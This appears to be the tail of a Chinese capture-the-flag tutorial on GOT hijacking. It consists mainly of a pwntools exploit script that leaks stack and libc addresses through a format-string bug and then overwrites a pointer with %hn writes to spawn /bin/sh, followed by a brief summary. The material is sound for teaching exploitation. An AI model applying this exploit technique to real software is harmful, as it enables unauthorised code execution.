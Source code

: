 ```bash
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

ru('username:\n')
sl(p64(0x404020))
ru('password:\n')
sl(p64(0x404020))
sl('/bin/sh\x00')

ru('start')
sl('%15$p-%13$p')

ret=int(r(14),16)-0xc8
leak('ret ',ret)
ru('-')

libc_base=int(r(14),16)-0x24083
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
system1 = system&0xffff
system2 = (system>>16)&0xff


addr1=ret&0xffff
leak('addr1 ',addr1)
leak('system ',system)
sla('start','%'+str(addr1)+'c%15$hn')
sla('start','%'+str(0x4020)+'c%43$hn')
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
#duan()
sla('start','%'+str(system2)+'c%18$hhn')
sla('start','exit')

itr()
```

## 总结

劫持 GOT 表不是一种独立的方法，要配合其他的漏洞进行利用，这里我配合着例题对这种利用方式进行了详细的解析，希望能够帮到正在入门的师傅们
